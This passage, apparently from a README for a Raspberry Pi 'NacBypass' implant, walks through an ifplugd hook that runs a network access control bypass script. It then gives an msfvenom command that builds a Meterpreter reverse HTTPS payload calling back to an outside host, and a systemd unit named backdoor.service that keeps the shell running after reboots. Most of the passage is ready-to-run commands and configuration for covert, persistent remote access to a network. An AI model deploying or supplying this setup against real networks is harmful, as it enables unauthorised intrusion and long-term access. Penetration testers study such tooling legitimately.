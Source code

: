 ```sh
#!/bin/bash

case "$2" in
  up)
    if [ "$1" = "eth0" ]; then
      exec /opt/NacBypass2.0/NacBypass.sh up
    fi
  ;;
  down)
    if [ "$1" = "eth0" ]; then
      exec /opt/NacBypass2.0/NacBypass.sh check_up
    fi
  ;;
esac
```
As you can see, once a connection is seen by ifplugd, it will execute the NacBypass.sh script. Subsequently, once the NIC is disconnected it will begin the deconstruction process. Finally, start and enable the ifplugd service.

```sh
$ systemctl start ifplugd
$ systemctl enable ifplugd
```

##### 3.) Persistent Remote Access - Meterpeter Reverse Shell

You can use anything here, this step just outlines setting up a persistent reverse shell via systemd.

Here is an example for a meterpreter on kali (2019.3 ARM)

```sh
msfvenom --payload linux/aarch64/meterpreter_reverse_https LHOST=1.2.3.4 LPORT=443 --format elf --out /opt/NacBypass2.0/backdoor
chmod +x /opt/NacBypass2.0/backdoor
```

Once you construct a payload via msfvenon, or whatever else you kids use these days, and downloaded it to the Raspberry Pi, create the following systemd file "backdoor.service" (/etc/systemd/system/backdoor.service):

```sh
[Unit]
Description=Meterpreter Backdoor
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
PIDFile=/var/run/backdoor.pid
Restart=always
RemainAfterExit=no
RestartSec=1
WorkingDirectory=/opt/NacBypass2.0
ExecStart=/opt/NacBypass2.0/backdoor

[Install]
WantedBy=multi-user.target
```
Once created, reload the daemon
